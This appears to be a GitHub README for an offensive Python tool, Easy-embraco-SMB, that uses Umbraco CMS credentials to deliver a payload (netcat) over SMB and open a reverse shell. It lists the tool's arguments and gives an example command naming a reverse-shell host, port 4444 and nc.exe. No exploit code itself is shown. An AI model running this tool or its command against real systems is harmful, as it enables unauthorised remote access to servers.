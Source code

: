 # Easy-embraco-SMB

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT]
                           [--load LOAD] --user USER --passw PASSW

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        Target IP address
  --host HOST, -x HOST  IP for reverse shell
  --port PORT, -p PORT  Port for reverse shell
  --load LOAD, -l LOAD  Path to file or script to provide to the public
  --user USER, -P USER  User name for Umbraco
  --passw PASSW, -U PASSW
                        Password for Umbraco


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe
